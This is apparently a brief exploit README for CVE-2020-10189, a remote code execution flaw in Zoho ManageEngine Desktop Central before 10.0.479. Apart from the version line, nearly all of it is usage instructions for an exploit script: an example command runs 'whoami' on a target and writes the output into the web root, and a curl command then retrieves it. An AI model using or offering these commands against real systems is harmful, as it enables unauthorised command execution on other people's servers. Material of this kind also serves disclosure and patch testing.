 # CVE-2020-10189 Zoho ManageEngine Desktop Central RCE

影响版本：  
<10.0.479  

exp:
```
python3 CVE-2020-10189.py <target> <cmd>
eg: python3 CVE-2020-10189.py 10.0.0.1 "cmd /c whoami > ../webapps/DesktopCentral/ss.txt"
curl https://10.0.0.1/ss.txt --insecure
```

[@steventseeley](https://twitter.com/steventseeley?s=05)